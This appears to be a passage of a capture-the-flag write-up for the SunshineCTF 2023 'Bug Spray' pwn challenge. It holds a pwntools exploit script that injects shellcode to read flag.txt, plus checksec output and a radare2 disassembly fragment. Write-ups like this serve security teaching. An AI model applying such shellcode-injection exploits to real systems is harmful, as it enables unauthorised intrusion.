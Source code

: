 ```python
    return io


def gen_payload() -> bytes:
    sc = b""
    sc += asm(shellcraft.amd64.linux.cat("flag.txt"))
    sc += asm(shellcraft.amd64.linux.exit(0))

    assert len(sc) <= 0x45

    payload = b""
    payload += sc
    payload += b"\x90" * (0x45 - len(payload))

    return payload


def main():
    io = conn()
    payload = gen_payload()

    io.sendafter(b"AskMe >>> \x00\x00", payload)
    io.interactive()


if __name__ == "__main__":
    main()
```

## Solution

```console
root@kali:~/ctf/SunshineCTF_2023/pwn/Bug Spray# checksec bugspray
[*] '/root/ctf/SunshineCTF_2023/pwn/Bug Spray/bugspray'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

Looking at disassembled code with `r2`.

```asm
┌ 178: entry0 (signed int64_t arg4);
│           ; arg signed int64_t arg4 @ rcx
│           0x00401000      b801000000     mov eax, 1                  ; [01] -r-x section size 178 named .text
│           0x00401005      bf01000000     mov edi, 1
│           0x0040100a      48be00204000.  movabs rsi, loc.prompt      ; 0x402000 ; "AskMe >>> "
│           0x00401014      ba0c000000     mov edx, 0xc                ; 12
│           0x00401019      0f05           syscall
```
